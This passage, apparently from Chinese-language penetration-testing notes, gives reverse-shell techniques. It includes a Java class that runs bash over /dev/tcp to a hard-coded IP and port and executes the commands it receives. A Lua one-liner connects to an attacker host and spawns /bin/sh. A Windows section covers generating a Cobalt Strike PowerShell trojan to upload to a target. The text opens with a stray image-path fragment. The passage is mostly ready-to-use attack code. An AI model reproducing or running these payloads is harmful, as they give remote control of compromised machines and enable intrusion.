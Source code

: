 ~~~java
public class Revs {
    /**
    * @param args
    * @throws Exception 
    */
public static void main(String[] args) throws Exception {
        // TODO Auto-generated method stub
        Runtime r = Runtime.getRuntime();
        String cmd[]= {"/bin/bash","-c","exec 5<>/dev/tcp/192.168.99.242/1234;cat <&5 | while read line; do $line 2>&5 >&5; done"};
        Process p = r.exec(cmd);
        p.waitFor();
    }
}
~~~

* 编译并执行恶意类，成功反弹shell

  ```bash
  javac Revs.java
  java Revs
  ```


**Lua反弹**

- Lua 是一个小巧的脚本语言。 其设计目的是为了嵌入应用程序中，从而为应用程序提供灵活的扩展和定制功能。Lua由标准C编写而成，几乎在所有操作系统和平台上都可以编译，运行。Lua并没有提供强大的库，这是由它的定位决定的。Lua 有一个同时进行的JIT项目，提供在特定平台上的即时编译功能。

    ```bash
    lua -e "require('socket');require('os');t=socket.tcp();t:connect('[攻击机ip]','[port]');os.execute('/bin/sh -i <&3 >&3 2>&3');"
    ```

### Windows反弹shell

**cs生成木马**

- （可以直接生成powershell木马，远程执行上线，或者生成powershell命令上线cs）上传到靶机执行反弹shell
- ![image-20220810163526855](漏洞探测和利用.assets/image-20220810163526855.png)